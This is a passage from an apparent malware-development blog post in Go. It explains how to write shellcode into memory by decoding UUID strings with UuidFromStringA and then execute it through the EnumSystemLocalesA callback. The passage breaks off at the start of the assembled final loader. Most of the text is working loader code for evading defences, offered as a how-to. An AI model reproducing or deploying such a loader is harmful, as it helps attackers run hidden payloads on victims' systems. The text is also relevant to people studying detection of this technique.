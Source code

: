 Now we have to use `UuidFromStringA` to decode and write the shellcode to memory iterating over all the UUIDs

```go
...

// Load dll
rpcrt4 := windows.NewLazySystemDLL("Rpcrt4.dll")
UuidFromStringA := rpcrt4.NewProc("UuidFromStringA")

addrPtr := addr
// Iterate over all UUIDs
for _, uuid := range uuids {
  u := append([]byte(uuid), 0)

  // Call function
  rpcStatus, _, err := UuidFromStringA.Call(
    uintptr(unsafe.Pointer(&u[0])),
    addrPtr,
  )

  if rpcStatus != 0 { // Handle error
    log.Fatal(err)
  }

  addrPtr += 16
}

...
```

And finally to execute the shellcode we use `EnumSystemLocalesA` as there are some API calls which use callback functions so can be abused to execute shellcode.

```go
...

// Get API call
EnumSystemLocalesA := kernel32.NewProc("EnumSystemLocalesA")

ret, _, err := EnumSystemLocalesA.Call(addr, 0)
if ret == 0 { // Handle error
  log.Fatal(err)
}

...
```

Let's put all together to make it work. The final code should be something like this:

```go
package main

/*

Author: D3Ext
Blog post: https://d3ext.github.io/posts/malware-dev-2/

*/

import (
  "fmt"
  "log"
  "bytes"
  "unsafe"
  "encoding/binary"

```